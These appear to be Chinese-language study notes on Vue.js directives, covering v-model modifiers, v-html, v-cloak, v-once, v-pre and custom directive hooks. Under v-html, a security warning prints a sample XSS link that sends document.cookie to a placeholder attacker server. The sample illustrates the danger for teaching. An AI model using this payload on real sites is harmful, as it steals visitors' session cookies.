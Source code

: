 #### v-model

    	<!--
    		收集表单数据：
    				若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。
    				若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。
    				若：<input type="checkbox"/>
    						1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    						2.配置input的value属性:
    								(1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    								(2)v-model的初始值是数组，那么收集的的就是value组成的数组
    				备注：v-model的三个修饰符：
    								lazy：失去焦点再收集数据
    								number：输入字符串转为有效的数字
    								trim：输入首尾空格过滤
    	-->

#### v-html

    					1.作用：向指定节点中渲染包含html结构的内容。
    					2.与插值语法（或者v-text）的区别：
    								(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
    								(2).v-html可以识别html结构。
    					3.严重注意：v-html有安全性问题！！！！
    								(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    								(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上，因为用户可能会写如下代码！
                                    <a href=javascript:location.href="坏人的服务器?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>
                                    一旦你将用户写的这个代码以v-html的形式插入，如果网站上有其他人点击了，就会造成cookie的全部泄露

#### v-cloak

v-cloak 指令（没有值）

1.  本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
2.  使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

#### v-once

v-once 指令：

1. v-once 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。

#### v-once

这玩意一般不会用，静态内容要是都加上 v-pre 有点麻烦
v-pre 指令：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

### 自定义指令

可采用简写，将指令定义成一个函数，此时相当于只有声明周期 bind 和 update，合并了这两个钩子。
二、配置对象中常用的 3 个回调：
(1).bind：指令与元素成功绑定时调用。
(2).inserted：指令所在元素被插入页面时调用。
(3).update：指令所在模板结构被重新解析时调用。
